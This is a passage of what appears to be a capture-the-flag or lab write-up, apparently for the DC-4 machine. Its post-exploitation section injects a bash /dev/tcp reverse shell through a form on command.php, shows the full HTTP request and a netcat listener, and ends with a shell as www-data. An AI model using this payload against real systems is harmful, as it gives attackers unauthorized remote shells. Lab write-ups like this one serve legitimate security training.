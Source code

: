 > It works!
{: .prompt-info }

---

# post exploitation
## reverse shell
Start by creating a listener on the attacker machine
```bash
$ nc -lvp 80
listening on [any] 80 ...
```

Execute reverse shell command
payload: `bash -c 'bash -i >& /dev/tcp/192.168.45.179/80 0>&1'`
```http
POST /command.php HTTP/1.1
Host: 192.168.193.195
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.193.195
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.193.195/command.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=l946hgu7t13k47989p6m2lpq52
Connection: close

radio=bash+-c+'bash+-i+>%26+/dev/tcp/192.168.45.179/80+0>%261'&submit=Run
```

Catch connection from target
```bash
$ nc -lvp 80
listening on [any] 80 ...
192.168.193.195: inverse host lookup failed: Unknown host
connect to [192.168.45.179] from (UNKNOWN) [192.168.193.195] 45022
bash: cannot set terminal process group (540): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dc-4:/usr/share/nginx/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

> We got our reverse shell!
{: .prompt-info }
